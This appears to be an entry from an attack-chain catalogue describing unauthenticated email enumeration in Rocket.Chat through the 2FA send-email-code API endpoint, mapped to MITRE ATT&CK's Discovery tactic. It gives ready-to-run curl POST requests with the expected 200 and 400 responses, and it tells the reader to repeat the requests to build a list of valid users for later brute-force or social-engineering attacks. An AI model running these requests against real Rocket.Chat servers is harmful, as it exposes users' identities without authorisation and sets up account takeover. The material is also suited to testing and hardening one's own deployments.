

---
tags:
  - information-disclosure
  - email-enumeration
  - rocket-chat
  - api
type: attack_chain
tools: []
tactics:
  - '[[Discovery]]'
verified: false
platforms:
  - Web
submitted: true
complexity: low
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Email-Enumeration-via-Rocket-Chat-2FA-Endpoint]]'
step_count: 1
techniques:
  - '[[Account Discovery]]'
updated_at: '2025-12-14T17:31:19.146Z'
description: >-
  An attack chain demonstrating unauthenticated email enumeration in Rocket.Chat
  by exploiting differential responses from the 2FA email code endpoint,
  allowing confirmation of valid user emails.
skill_level: beginner
impact_level: medium
id: 4be8ccbe-2b2b-4a41-9071-c59535b2af15
validated: true
mitre_tactics:
  - '[[Discovery]]'
mitre_techniques:
  - '[[Account Discovery]]'
---
# Unauthenticated Email Enumeration in Rocket.Chat via 2FA Endpoint

Multi-stage attack chain demonstrating a complete attack workflow for enumerating valid email addresses in Rocket.Chat without authentication.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~1 minutes |
| Skill Level | Beginner |
| Complexity | Low |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- curl (or similar HTTP client)

### Target Environment

- Rocket.Chat instance running on port 3000
- Web platform with accessible API endpoint /api/v1/users.2fa.sendEmailCode
- No authentication required

### Initial Access Requirements

- Network access to the Rocket.Chat server
- No credentials needed
- Public-facing or internally accessible instance

## Detailed Attack Procedures

### Step 1: Perform Email Enumeration
procedure: [[procedures/Email-Enumeration-via-Rocket-Chat-2FA-Endpoint]]

**Objective**: Enumerate valid email addresses by sending POST requests to the 2FA endpoint and observing response differences to confirm user existence.

**Instructions**: Target the /api/v1/users.2fa.sendEmailCode endpoint with the emailOrUsername parameter. Test with a suspected valid email using [[commands/curl-rocket-chat-valid-email-enumeration]]:

```bash
curl -X POST http://rocket-chat.local:3000/api/v1/users.2fa.sendEmailCode -H "Content-Type: application/json" -d '{"emailOrUsername":"test@test.test"}'
```

If a 200 OK with {"success":true} is returned, the email is valid. Then test an invalid email using [[commands/curl-rocket-chat-invalid-email-enumeration]] to confirm the difference:

```bash
curl -X POST http://rocket-chat.local:3000/api/v1/users.2fa.sendEmailCode -H "Content-Type: application/json" -d '{"emailOrUsername":"test2@test.test"}'
```

Repeat for multiple emails to build a list of valid ones.

**Expected Output**: 200 OK for valid emails ({"success":true}), 400 Bad Request for invalid ({"success":false, "error":"Invalid user [error-invalid-user]"}).

**Success Indicators**:
- Receipt of 200 OK response indicating valid email
- Receipt of 400 Bad Request with 'Invalid user' error for non-existent emails
- Ability to distinguish and enumerate valid users

## Attack Chain Summary

### Key Achievements

1. Confirmed existence of specific email addresses without authentication
2. Identified differential API responses leaking user information
3. Enabled potential follow-on attacks like brute-force or social engineering

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Account Discovery]]

### MITRE ATT&CK Tactics

- [[Discovery]]

---

*Last updated: 2023-10-01T00:00:00Z*
